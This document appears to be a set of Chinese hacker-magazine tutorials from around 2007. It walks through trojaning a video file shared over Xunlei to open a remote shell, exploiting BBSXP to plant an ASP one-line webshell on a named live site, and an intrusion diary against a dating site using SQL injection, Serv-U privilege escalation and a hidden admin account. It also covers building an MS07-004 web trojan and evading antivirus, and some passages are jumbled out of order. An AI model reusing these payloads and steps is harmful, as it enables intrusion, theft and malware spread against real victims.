因为发布视频的都是使用迅雷时间较长的用户，视频来源相对比较可靠，加上我们为视频起的名字很有诱惑力，因此刚才发布的视频很快就会被别人下载观看。别人打开“美女的激情视频.smil”文件后，就会造成溢出并打开系统 13579 端口。直接使用 Telnet 到这个端口就可以得到对方的 CMDSHELL，控制远程主机。命令格式为：`telnet 远程主机IP地址 13579`。



可惜的是这种采用溢出的攻击方式只能让中招的人自动打开一个端口，我们却不知道谁中招了。那么我们该如何才能得知远程主机的 IP 地址呢？稍微细心一点，到资源发布页面中查看一下别人对该视频的回复，就可以看到下载者的 IP 地址了。拿出扫描器扫描一下相应 IP 段开放了“13579”端口的主机，那台主机就是你的小肉鸡啦！——当然，如果你发布的是其他反弹木马之类的，那么寻找控制肉鸡就更简单了！



## 小编点评

你行走国内，只要有共享的地方就会有欠钱和发码；以迅雷的 BT 下载圣地。这样的码马一类把将来可以转变成有序的网络秩序，文武并重地形成了“安全人格养成”的姿态。未来不是为了侵略某地的相同爱好者，而是大家交流的一台桥梁。你不能只为一己私欲做破坏，给他人造成损害。选择走正路不意味着肉鸡不会被动，做一件超安全的事，而是做事之前就要有“预设风险”的意识与准备。无论什么时候都要加强安全意识！

（文章中涉及到的 real.exe 已收录到光盘中。）

## 跟我学 BBSXP 最新漏洞的利用

这天无聊，躺在床上给欠钱发了个自扣的彩信，结果被欠钱威胁：“我这个月挖到了一个 BBSXP 的最新漏洞并补件，怕小菜们不懂得利用，为大家写个利用工具吧！否则，这张床头激情自拍照片就会，嘿嘿……”

面对着好不容易建立起来的美好形象可能被欠钱那小子玷污的威逼和稿费的利诱，只得打起十二分精神上网，按照欠钱的分析和帮助制作了这个工具。具体的分析就不提了，大家看黑客研究院吧，只教一下基本的利用步骤。

### 一、搜索目标

像这种版权信息比较明确的系统，直接构造关键字“Powered by BBSXP 7.00 Beta 2 SQL”（包括引号）到搜索引擎去搜就是了。看了下百度的信息量是 74 个，Google 的信息量是 76200 个，所以就用 Google 来干活啦，如图1。



### 二、注册 ID

因为这个漏洞的利用需要能够发帖子、编辑帖子，所以在利用前要注册一个 ID，如图2。





### 三、发帖并抓包

随便找个允许发帖的版块，单击“发表新帖”，乱灌一气。在发表成功后，单击“回到主题”。这样可以看到我们刚发的帖子，然后拿出抓包工具 Winsock 专家，点击“打开”图标，找到 IE 进程中关于发帖的 IEXPLORE.exe，点“打开”。把 Winsock 专家最小化放到一边，在刚才的帖子里点“编辑”图标，这个时候 Winsock 专家里的数据包会在飙，赶紧点上“暂停”图标，让它停下来，如图3。



这里红蓝相间的数据信息就是刚才编辑帖子时的所有内容，找到 send（发送）消息的那一行，单击选中它，底下会显示发出的消息。我们需要的是 cookies 那一部分，把它整个复制下来（包括“cookies:”）放到利用工具里，如图4。



把刚才编辑帖子的地址 `http://hl.cnvip.cc/EditPost.asp?ThreadID=965&PostID=11259` 填到“目标主机”中，在指定的用户名填写自己刚注册的 ID，这里写“zj1244”了。默认的操作是“修改指定用户为管理员”，单击“发送”按钮，提示“可能成功咯”。回头查看下 zj1244 的资料如图5，我们已经是管理员了。

### 四、拿到 shell

因为现在的服务器 Windows 2003 居多，因此用 htr 文件类型拿 shell 的方法不是很通用，这里用的是备份日志的方法。在备份日志拿 webshell 之前，我们有一个最基本的步骤就是知道目标网站的物理路径，它需要进到后台，这很简单。在利用工具中，把下拉框选为“改后台密码为指定用户的密码”，单击“发送”。

现在后台的管理密码就被改成我们注册密码了，点“管理”出现后台登录页面，输入自己刚注册时使用的密码顺利进入后台。在左边的“其他功能”项里找到“主机环境变量”，可以看到“本文件请求的物理路径”是 `f:\usr\cn31004\Admin_other.asp`，如图6。



知道了物理路径就好办多了，先在下拉框中选择“还原后台密码”，以免管理员这时候进不去后台了。再删除“指定用户的后台日志”，让我们的每一点蛛丝马迹都消失。

现在再单击“获得库名”，程序就会自动读取数据库名称存放到自己的电子邮件处，通过查看自己的个人资料可以看到。我们得到的是 `cn31004_db`，一会儿备份日志的时候就要用到它，把它记录下来。在下拉框中选择“日志备份获得 Webshell”，会出现“代码”和“路径”两个文本框，它的作用是把指定代码写到该路径中。在这里，把代码处写为：

```asp
<%eval request(chr(35));response.end%>
```

路径处填为 `f:\usr\cn31004\zj1244.asp`，库名是 `cn31004_db`，单击“提交”后即可得到 webshell 了。现在的 `http://hl.cnvip.cc/zj1244.asp` 就是包含一句话木马的小马，按常规方法连接即可轻松控制整个网站。若备份失败并出现 404 错误，也可能是数据库权限问题，可尝试差异备份和日志备份或更换目标测试。

## 老婆某征婚网

### 一、缘由

一天，某同志在群里发出一个网站，说有空的帮忙弄弄。适逢当时的确很有空，就抱着试一试的心态打开了这个站。一看还真挺让我伤感的，居然是一个征婚网，如图1。想想自己也二十岁了，还没谈过恋爱，挺失败的。唉，人生一世，草木一秋啊！所以我化悲痛为力量，一定要把这个站拿下。



图1

### 二、郁闷的开始

打开网站看了下，发现是ASP的。打开一个链接，试着在URL后面加了个单引号，回车，页面返回正常。看来站长对SQL注入有点防范意识，过滤了单引号。再试下经典的“and 1=1”，返回正常；再试“and 1=2”的时候出现意外了，提示“对不起，该产品并不存在，请返回”，如图2。于是用啊D检测了一下刚才的那个URL，发现检测出来是“可用注入点”，但是用啊D注入的时候却提示该URL无法注入。明明检测出来了，又不可以注入，够郁闷了。工具不能只用一个，只用一个工具的不是好的工具hack，所以决定换NBSI3.0试下。检测一下，发现也是未检测到注入漏洞。可恶，难道真的不可以注入吗？不死心，再打开相应的链接，找了“网站简介”几个字作为关键字填入NBSI的特征字符里面，再检测。这回终于出来了，不仅可以注入而且是SA权限呢，如图3。



图2

DB_OWNER，如图4。真不知道是怎么回事了，一会儿一个样，把我都搞迷糊了。不过好在这一次啊D倒能列出目录来了，看起来只用一个工具真的是不行的哦。



图3


图4

### 三、更郁闷的继续

虽然啊D能列目录了，但是管理员把WEB目录设置得相当BT，找了几个小时才找了出来。本来打算用NBSI直接往WEB目录传一个一句话木马，传个马的，没想到又发生了意外。在NBSI的文本文件上传里试着上传一句话ASP马，如图5。看样子似乎是传上去了，但访问的时候却是无法找到该页，更郁闷了！然后再用啊D、HDSI、明小子等相应功能上传，结果全部失败了。啊D检测来检测去始终是检测出来为DB_OWNER权限，它不成功不怪它。可是其它的NBSI、HDSI、明小子全检测出来是SA权限的，也不成功就要怪它们了。不过其实这些工具都是通过相应的数据库存储过程来达到上传的目的，不成功的话看来是相关的存储过程被删除掉了。更不明白的是工具也是这样检测注入点的，为什么工具的and 1=1和and 1=2就能检测出存在注入，而手工的就不行呢？真是可恶至极了。难道是传说中的人品问题？

> （小编：笔者对 and 1=1 和 and 1=2 判断注入点还不够清楚，其实 and 1=1 返回正常页，“and 1=2 返回另一个其它页面”，本身就是存在注入漏洞的典型状况。只要输入 and 1=2 时返回的页面和 and 1=1 不一样，大部分情况下都是有漏洞的。而多个注入工具因判断用户权限的方法不一样，因此有的说是SA，有的说是DB Owner。手工输入 and system_user>0 就可以看到用户名了。）

## 一个人的战争


> 发送下载命令，尝试下载文件并保存到服务器上。请稍候……

命令已发送。请自行验证是否成功！如图8。


SA也奈它不何，开什么玩笑？就要过年了，居然出现这种意外。起初我还怀疑是不是WEB目录搞错了，仔细检查了N次之后确定WEB目录绝对是没错的。于是又用一系列注入工具想把一句话ASP马弄上去，可是不管我怎么弄还是无法找到该页！看来注入工具在这一次渗透中算是已经尽力了。本来想当然它就是DB_OWNER权限，想用LOG备份一句话木马的，没想到第一步就又提示“对不起，该产品并不存在，请返回”了。唉，看来真的是黔驴技穷了，知道的小法已经全部试过了，就连最拿手的LOG备份也没成功，够郁闷的了！

### 四、希望之光

菜菜也在学习，现在知道的小法似乎的确不可能拿到webshell了，更不用说什么系统权限了。既然暂时没办法的话就先放一放。于是又上了几进制的论坛到处逛了逛，发现有位同志遇到的情况和我虽不一样，但也有相同之处。在后面的回复中看到一个工具——MSSQL上传漏洞利用工具V1.0，这个东西以前还没有见过，不知道管不管用。不管了，下载回来再说，打开后界面如图6。

再访问指定页面，哈哈，是空白的，太好了！成功传上去了。因为我的一句话代码改成`<%if request("cmd")<>"" then execute request("cmd")%>`，所以页面不会显示什么“类型不匹配”之类的错误而是只返回一个空白页。现在当然就是用一句话客户端连接了，提交环境变量，成功返回了服务器相关信息，如图9。再接着就上传了大马冰长助手，如图10。


仔细一看才发现原来这是啊D的作品！再看看原理，原来是利用sp_oacreate来写入一个VBS文件，来下载WEB上的文件以达到上传的目的。而且还支持exe文件上传呢，不过有两个必须条件：一是要MSSQL数据库类型，二是要SA权限，好在这两个条件今天都满足，不然真的没法搞了。嗯嗯，这回又有得玩了，HOHO！

虽然只支持小于8K的文件上传，但是我的一句话ASP马远远小于8K。注入链接当然就是填注入点了，注入类型是数字型的（这个工具检测的时候会显示出来的），下载位置就是相应文件的WEB地址了（这里要注意的是后缀要是txt，如果你的一句话ASP马放到WEB上是asp后缀的话，下载到服务器上的文件会是空的，因为一句话ASP马在访问的时候已经执行了，根本不能读取到代码），保存位置就是在目标服务器的WEB路径了（记得要带文件名哦，后缀要是asp的），全部填好之后如图7。然后点“上传文件到服务器上”，很快就返回：


### 五、终结巅峰权限

有了webshell办事就方便得多了，试着执行`net start`，发现“拒绝访问”，想上传本地cmd.exe发现“不允许操作”！传不上去，郁闷，难道悲剧还要上演？不让传我就不传，在查看系统服务列表的时候发现有个ASPNET用户，支持aspx哦。既然不能上传，那我就用ASP马编辑算了，打开一个ASP文件，把ASPX马的代码复制过去，保存为hack.aspx，访问看看，哈哈，出现了……

现在已经具有至高无上的权限了，再下来还等什么，登录3389呀！成功登录进去了，配置还不错呢，4个CPU哦，如图13。


可爱的登录界面。接着当然是登录进去了。这回能执行命令了，如图11。`net start`之后发现服务器装有Serv-U，这回倒是好事不断了，嘿嘿。

不过跳到Serv-U的安装目录才发现FTP配置文件没有修改权限，ASPX马也是一样，看来这块肥肉还设置过了访问权限呢。那我们就来试一下Serv-U的ASP马权限提升吧。上传了相应的ASP提权工具，执行命令，提示成功了。当然，这个马无论成不成功都是提示成功，所以不能听它自己“邀功”。自己去ASPX马里执行`net user`命令，发现已经成功添加了一个用户名为goldsun的用户，并且属于管理员组，如图12。

至此服务器最高权限已经顺利得到了，渗透也结束了。不过有一点还是要提一提的。大家应该还记得注入权限是SA的吧，那么说数据库连接文件里面放着的可以有SA权限的用户和密码啊。找到存在注入的文件，查看源码，找到数据库连接文件名，再跳到对应目录找到该链接文件，顺利得到了SQL连接用户和密码信息。再用SQLTools连接后发现是不可以执行命令的。看来组件真的被删掉了，再用得到ASPX马的方法弄了一个sqlrootkit上去，用得到的用户和密码登录，检测一下组件，发现xp_cmdshell组件是不存在的了，于是恢复组件，再检测的时候已经存在该组件了，在SQLTools里执行命令也有了反应，如图14。就算没有Serv-U提权也是不成问题的。

在数据库连接文件里发现有相关的过滤代码，看了一下发现没有过滤掉`and`，可是我手工检测的时候却不行，原因就不清楚了。不明白为什么过滤掉了还能注入，可能过滤是过滤了，但是过滤得还不够严格吧，而且有办法可以绕过一些过滤继续注入，具体就不是很清楚了。大家一定要记住sqlrootkit哦，在有SA权限的SQL连接用户和密码的时候它就是系统权限啊！文中不当之处还请大家批评指正，文中的论坛我也经常上的，有问题就到论坛探讨探讨吧。


> ### 黑客术语小补习：什么是挂马
>
> 就是在别人的网站文件里放入网页木马，或是将恶意代码嵌入到对方正常的网页文件里，以使浏览者中马。通常都是在网站的首页上来挂马，也有在数据库链接文件、JS文件等处挂马的。

> ### 小编点评
>
> 本文属于典型的“入侵日记”类。文章提到的重点在于渗透过程中的提权思路，以及MSSQLUP、小榕sqlrootkit等工具的配合使用。不同场合需要根据不同情况灵活选择工具和方法。

（文章中涉及到的MSSQLUP和sqlrootkit以及su.asp已经录到光盘中。）

## 最新漏洞 MS07-004 木马

2007年微软公布的新漏洞里，最受瞩目的是MS07-004。它是一个IE漏洞，访问特殊网页后电脑可能被入侵并被植入木马。本文主要介绍该漏洞的利用与免杀思路。

## 1. MS07-004 网页木马的制作与免杀

首先打开CMD命令提示符，按 `ms07-004 <URL> [文件名]` 格式运行漏洞利用工具。例如：`ms07-004 http://www.xxx.com/ma.exe ma.htm`，会在当前目录生成`ma.htm`文件。将其上传后，用户访问该页面会自动执行对应程序。


生成的网页木马源码可被常见杀软查杀，因此需要进一步处理（如网页加密、再次加壳等）以降低特征命中率。


仅做简单加密仍可能在运行时被识别，因为内存中仍存在可疑痕迹。

